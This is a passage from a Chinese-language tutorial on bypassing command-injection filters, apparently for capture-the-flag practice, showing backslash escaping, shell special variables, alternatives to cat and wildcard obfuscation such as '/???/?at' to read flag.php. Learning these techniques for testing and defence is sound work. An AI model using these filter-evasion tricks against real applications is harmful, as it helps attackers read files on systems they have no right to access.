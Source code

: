 <6> 反斜杠绕过

```
[root@localhost home]# cat f\l\ag.php
[root@localhost home]# ca\t f\lag.php
```

<7>shell 特殊变量

```
$1到$9、$@和$*等

[root@localhost home]# cat fl$1ag.php
[root@localhost home]# cat fl$2ag.php
[root@localhost home]# cat fl$@ag.php
[root@localhost home]# cat fl$*ag.php
```

### 1.3 文件读取绕过

文件读取，最常用的就是 cat 命令。如果 cat 被过滤，可以使用下面命令替代：

```
more:一页一页的显示档案内容
less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容，不加选项默认输出八进制，带 -c 参数则输出字符串内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
```

### 1.4 通配符绕过

通配符含义介绍：

[https://www.secpulse.com/archives/96374.html](https://link.zhihu.com/?target=https%3A//www.secpulse.com/archives/96374.html)

```
/???/[:lower:]s =>/bin/ls
[root@localhost home]# /???/[:lower:]s
flag.php  pci
[root@localhost home]# cat f*
[root@localhost home]# /???/?at flag.php
[root@localhost home]# /???/?at ????????
[root@localhost home]# /???/?[a][t] ????????
[root@localhost home]# /???/?[a][t] ?''?''?''?''?''?''?''?''
[root@localhost home]# /???/?[a]''[t] ?''?''?''?''?''?''?''?''
```
